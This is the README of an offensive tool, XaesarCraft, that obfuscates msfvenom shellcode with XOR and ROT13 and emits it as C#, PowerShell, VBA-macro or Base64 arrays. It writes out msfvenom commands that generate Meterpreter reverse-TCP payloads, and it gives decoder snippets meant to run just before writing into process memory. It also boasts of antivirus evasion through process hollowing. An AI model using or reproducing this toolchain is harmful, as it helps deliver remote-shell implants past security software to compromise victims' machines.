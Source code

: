 # XaesarCraft

XaesarCraft is a Python script that enables you to apply different cryptographic operations (XOR, ROT13, or a combination of these algorithms - XOROT) to byte arrays and outputs the results in various formats. 
This tool is useful for processing payloads, especially those generated by msfvenom, in csharp or ps1 formats. Additionally, XaesarCraft can convert the payload into an array format suitable for VBA scripts.

## Disclaimer

This tool is intended for educational and research purposes only. It should not be used for any illegal activities. The author is not responsible for any misuse or damage caused by this program.

## Key Features:

1. Apply XOR, ROT13, or XOROT operations to payloads generated by msfvenom in csharp or ps1 formats
2. Convert payloads into VBA array format
4. Supports custom key for operations ( one for both )
5. Output results in Base64 encoding


## Example of usage:

```
# Using XOROT with default keys (13 for ROT13;) and 0xfa for XOR) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py 

# Using XOROT with default keys to process a payload generated by msfvenom and return result in VBA array for your macros
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py --vba

# Using only ROT13 with custom key (0x13) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py -m rot -n 0x13

# Using XOROT with a custom key (0x13) to process a payload generated by msfvenom and retrun payload base64 encoded
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13 --b64

# Process an input string directly (e.g. a payload snippet), other keys aplies too
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" 
```

## Decryption Codes
Decryption codes for the default mode only(!) (C#, PowerShell, VBA). It's recommended to use them just before writing to process memory;):

C#
```
byte xorValue = 0xfa; int rot = 13;
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(buf[i] ^ xorValue); }
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(((uint)buf[i] + rot)); }
```
PowerShell
```
$xorValue = 0xfa; $rot = 13; 
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte]($buf[$i] -bxor $xorValue); }
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte](([uint32]$buf[$i] + $rot)); }
```
VBA
```
Dim xorValue As Byte: xorValue = &Hfa
Dim rot As Integer: rot = 13
For i = 0 To UBound(buf): buf(i) = buf(i) Xor xorValue: Next i
For i = 0 To UBound(buf): buf(i) = (buf(i) + rot) Mod 256: Next i
```

## Achievements 
Usage of a default algo of XaesarCraft and the right place of decode gifts us some benefits in AV evasion ;)

![image](https://github.com/to0thl3ss/XaesarCraft/assets/2934007/f2c2f7fa-b662-48e1-a893-71b2ce9df266)

No additional technics for evasion AVs, just default injector(process hollowing) with "encoded" payload.

## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
